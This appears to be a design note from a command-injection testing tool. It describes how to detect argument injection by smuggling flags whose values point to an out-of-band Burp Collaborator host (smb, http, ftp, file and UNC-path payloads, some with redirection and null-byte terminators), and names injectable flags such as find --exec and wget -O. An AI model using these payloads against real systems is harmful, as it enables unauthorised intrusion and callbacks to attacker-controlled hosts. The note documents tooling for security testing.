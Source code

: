 # Detecting argument injection
Apart from differences in application's response, we might dalso detect argument injection by:
- reference injection- we supply an argument that, if interpreted properly, will ensue a network response (e.g. a DNS lookup, HTTP/FTP/SMB interaction etc) - this can be bruteforced
- command injection through the target-specific argument - we supply an arbitrary command into a command-specific flag - which is our "base" command in SHELLING (doing whatever the setting is, e.g. a lookup or sleep/selfping)  - this is rather hardcoded, e.g. 



## Reference injection
In the first approach we have no idea what is the target command we are injecting arguments into. The main assumption is that there are only letters, uppercase letters and digits (the last not likely to take any argument values, though) that can represent short flags in formats:

    COMMAND -FLAG
    COMMAND /FLAG

At this point we do not attempt to bruteforce any full names (long versions of the flags), like:

    COMMAND --FULL_FLAGNAME

Good candidates for values are:

    smb://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    file://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    http://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    ftp://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 

Additionally for win this is worth checking too:

    \\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a

This might as well work with injections like:

    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a<NULLBYTE>
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a<POOTERMINATOR>
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a::COMMENT OUT

whereas neither command nor argument separators are allowed, but we can redirect the outpt to an arbitrary local file (which might be very good too :D). 



## Command inejction
In this case we check for particular flags in particular binaries (assuming that the matching binary is being executed on the server), e.g. --exec in find, -O in wget or /c in some windows commands.


## Syntax
We should still keep in mind quotes in the final expression syntax might make our payload fail, hence we need to make sure we also create and evaluate proper test cases while developing this feature.

This is all experimental.
